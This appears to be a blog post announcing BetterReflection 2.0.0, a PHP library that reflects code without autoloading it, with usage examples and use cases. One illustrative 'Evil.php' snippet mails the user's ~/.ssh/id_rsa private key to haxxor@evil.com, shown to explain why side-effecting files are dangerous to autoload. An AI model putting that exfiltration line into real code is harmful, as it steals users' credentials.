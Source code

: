 ```yaml
---
layout: post
title: BetterReflection version 2.0.0 released
category: Security
tags: ["PHP", "Library", "Roave", "Clean Code", "Tools"]
year: 2017
month: 9
day: 18
published: true
summary: BetterReflection version 2 was released: let's look at its main features and improvements
description: BetterReflection is a library that aims at providing additional and improved Reflection API compared to PHP's ext-reflection
tweet: 
---
```

<p>
    <a href="https://twitter.com/RoaveTeam" target="_blank" rel="fn org">Roave</a>'s
    <a href="https://github.com/Roave/BetterReflection" target="_blank">BetterReflection</a>
    <a href="https://github.com/Roave/BetterReflection/releases/tag/2.0.0" target="_blank">2.0.0s</a>
    was released today!
</p>

<p>
    I and <a href="http://twitter.com/asgrim" target="_blank">James Titcumb</a> started working on this
    project back in 2015, and it is a pleasure to see it reaching maturity.
</p>

<p>
    The initial idea was simple: James would implement all my wicked ideas, while I
    would lay back and get drunk on Drambuie.
</p>

<p>
    <img
        src="../../img/posts/2017-09-18-roave-better-reflection-v2.0.0/drunken-coding.jpg"
        alt="Me, drunk in bed. Photo by @Asgrim, since I was too drunk to human"
    />
</p>

<p>
    Yes, that actually happened. Thank you, James, for all the hard work! 🍻
</p>

<p>
    <small>(I did some work too, by the way!)</small>
</p>

<h3>What the heck is BetterReflection?</h3>

<p>
    Jokes apart, the project is quite ambitious, and it aims at reproducing the entirety of the PHP
    reflection API without having any actual autoloading being triggered.
</p>

<p>
    When put in use, it looks like this:
</p>

~~~php
<?php

// src/MyClass.php

namespace MyProject;

class MyClass
{
    public function something() {}
}
~~~

~~~php
<?php

// example1.php

use MyProject\MyClass;
use Roave\BetterReflection\BetterReflection;
use Roave\BetterReflection\Reflection\ReflectionMethod;

require_once __DIR__ . '/vendor/autoload.php';

$myClass = (new BetterReflection())
    ->classReflector()
    ->reflect(MyClass::class);

$methodNames = \array_map(function (ReflectionMethod $method) : string {
    return $method->getName();
}, $myClass->getMethods());

\var_dump($methodNames);

// class was not loaded:
\var_dump(\sprintf('Class %s loaded: ', MyClass::class));
\var_dump(\class_exists(MyClass::class, false));
~~~

<p>
    As you can see, the difference is just in how you bootstrap the reflection API.
</p>

<p>
    Also, we do provide a fully backwards-compatible reflection API that you can use
    if your code heavily relies on <code>ext-reflection</code>:
</p>

~~~php
<?php

// example2.php

use MyProject\MyClass;
use Roave\BetterReflection\BetterReflection;
use Roave\BetterReflection\Reflection\Adapter\ReflectionClass;

require_once __DIR__ . '/vendor/autoload.php';

$myClass = (new BetterReflection())
    ->classReflector()
    ->reflect(MyClass::class);

$reflectionClass = new ReflectionClass($myClass);

// You can just use it wherever you had `ReflectionClass`!
\var_dump($reflectionClass instanceof \ReflectionClass);
\var_dump($reflectionClass->getName());
~~~

<p>
    How does that work?
</p>

<p>
    The operational concept is quite simple, really:
</p>

<ol>
    <li>
        We scan your codebase for files matching the one containing your class.
        This is fully configurable, but by default we use some ugly autoloader
        hacks to find the file without wasting disk I/O.
    </li>
    <li>
        We feed your PHP file to <a href="https://github.com/nikic/PHP-Parserr" target="_blank">PHP-Parser</a>
    </li>
    <li>
        We analyse the produced <abbr title="Abstract Syntax Tree">AST</abbr> and
        wrap it in a matching <code>Roave\BetterReflection\Reflection\*</code>
        class instance, ready for you to consume it.
    </li>
</ol>

<p>
    The hard part is tracking the miriad of details of the PHP language,
    which is very complex and cluttered with scope, visibility and inheritance
    rules: we take care of it for you.
</p>

<h3>Use cases</h3>

<p>
    The main use-cases for BetterReflection are most likely around security, code
    analysis and <abbr title="Ahead of Time">AOT</abbr> compilation.
</p>

<p>
    One of the most immediate use-cases will likely be in
    <a href="https://github.com/phpstan/phpstan" target="_blank">PHPStan</a>, which
    will finally be able to inspect hideous mixed OOP/functional/procedural code
    if <a href="https://github.com/phpstan/phpstan/issues/67" target="_blank">
        the current WIP implementation
    </a> works as expected.
</p>

<p>
    Since you can now "work" with code before having loaded it, you can harden API
    around a lot of security-sensitive contexts. A serializer may decide
    to not load a class if side-effects are contained in the file declaring it:
</p>

~~~php
<?php

// Evil.php
\mail(
    'haxxor@evil.com',
    'All ur SSH keys are belong to us',
    \file_get_contents('~/.ssh/id_rsa')
);

// you really don't want to autoload this bad one:
class Evil {}
~~~

<p>
    The same goes for classes implementing malicious <code>__destruct</code> code,
    as well as classes that may trigger autoloading of other malicious code.
</p>

<p>
    It is also possible to analyse code that is downloaded from the internet without
    actually running it. For instance, code may be checked against GPG signatures in
    the file signature before being run, effectively allowing PHP to "run only signed code".
    <a href="https://getcomposer.org/" target="_blank">Composer</a>, anybody?
</p>

<p>
    If you are more into code analysis, you may decide to compare two different
    versions of a library, and scan for <abbr title="Backwards Compatibility>BC</abbr>
    breaks:
</p>

~~~php
<?php
// the-library/v1/src/SomeApi.php

class SomeAPI
{
    public function sillyThings() { /* ... */ }
}
~~~

~~~php
<?php
// the-library/v2/src/SomeApi.php

class SomeAPI
{
    public function sillyThings(UhOh $bcBreak) { /* ... */ }
}
~~~

<p>
    In this scenario, somebody added a mandatory parameter to <code>SomeAPI#sillyThings()</code>,
    effectively introducing a BC break that is hard to detect without having both versions of the
    code available, or a good migration documentation (library developers: please document this
    kind of change!).
</p>

<h3>Future use cases?</h3>

<p>
    In addition to the above use-case scenarios, we are working on additional
    functionality that would allow changing code before loading it. 
</p>
<p>
    Is that a good idea?
</p>
    ... I honestly don't know.
</p>

<p>
    Still, there are proper use-case scenarios around
    <abbr title="Aspect Oriented Programming">AOP</abbr> and proxying libraries,
    which would then be able to work even with <code>final</code> classes.
</p>

<p>
    You will likely see these features appear in a new, separate library.
</p>

<h3>Credits</h3>